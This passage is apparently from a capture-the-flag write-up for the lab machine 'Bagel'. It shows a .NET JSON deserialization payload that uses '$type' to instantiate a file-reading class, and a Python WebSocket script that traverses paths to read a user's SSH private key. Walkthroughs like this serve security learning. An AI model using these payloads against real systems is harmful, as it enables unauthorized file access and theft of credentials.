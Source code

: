 Okay so looking at this we can probably read different file that the orders.txt we can do this because of the deserialization of the .net core. This can be done by nesting another json object inside of the initial one and to look where can we “nest” it we can see that initial Base class inherits from Orders:

![Untitled](Bagel%2067ae90c415644ec890a90d5b2169a20b/Untitled%205.png)

In orders only function that accepts an object as an argument is RemoveOrder(object) so we can give it another object which is basically ReadOrder() setter function.

![Untitled](Bagel%2067ae90c415644ec890a90d5b2169a20b/Untitled%206.png)

In ReadOrder() function we can check and see that the file it reads is of type File which is also another class put inside of a namespace called bagel_server. So to put all of this together we would get an payload looking like this:

```json
{ "RemoveOrder" : {"$type": "bagel_server.File, bagel", "ReadFile":"[...INSERT FILE HERE...]"}}
```

- Most of the info was found here for the “$type” stuff:
- [https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15](https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15)

I will do it the way the creator did in app.py file to connect to the port 5000 through python WebSocket and send the payload that way and try to read ssh key from user phil.

```python
import json
import websocket

ws = websocket.WebSocket()
ws.connect("ws://10.10.11.201:5000/")
order = { "RemoveOrder" : {"$type": "bagel_server.File, bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(json.loads(result))
```

![Untitled](Bagel%2067ae90c415644ec890a90d5b2169a20b/Untitled%207.png)
